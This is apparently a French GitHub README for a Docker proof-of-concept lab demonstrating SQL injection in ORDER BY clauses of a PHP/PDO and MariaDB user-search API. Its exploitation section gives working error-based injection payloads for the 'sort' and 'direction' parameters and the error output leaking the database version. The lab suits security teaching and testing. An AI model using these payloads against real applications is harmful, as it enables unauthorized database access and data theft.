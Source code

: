 # PoC - Exploitation des injections SQL dans les clauses ORDER BY

## Installation

```
$ docker-compose build
$ docker-compose up -d
```

![image](https://github.com/user-attachments/assets/39419bea-36df-4182-a049-6e86d2c2a09a)

## Description

L'application, développée en PHP avec l'extension PDO, permet de rechercher des utilisateurs présents dans une base de données MySQL (Mariadb). Toutefois, les paramètres "sort" et "direction" utilisés au sein de la clause `ORDER BY` lors de l'appel à l'API sont sensibles aux injections SQL.

## Exploitation

Récupération de la version du système de base de données via le paramètre "sort" :

```sql
/users?search=&sort=username OR (SELECT 1 FROM(SELECT COUNT(*),CONCAT(CHAR(126),CAST(VERSION() AS NCHAR),CHAR(126),0x3a,floor(rand(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)&direction=ASC&page=1&maxPerPage=5
```

```
Error: SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry '~10.11.6-MariaDB-1:10.11.6+maria~ubu2204~:1' for key 'group_key'
```

Récupération de la version du système de base de données via le paramètre "direction" :

```sql
/users?search=&sort=username&direction=ASC,(SELECT 1 FROM(SELECT COUNT(*),CONCAT(CHAR(126),CAST(VERSION() AS NCHAR),CHAR(126),0x3a,floor(rand(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)&page=1&maxPerPage=5
```

```
Error: SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry '~10.11.6-MariaDB-1:10.11.6+maria~ubu2204~:1' for key 'group_key'
```

## Démo

![](https://github.com/Sharpforce/cybersecurity-code/blob/master/exploitation-des-injections-sql-au-sein-de-la-clause-order-by/PHP-PDO-et-MySQL/demo/demo.gif)

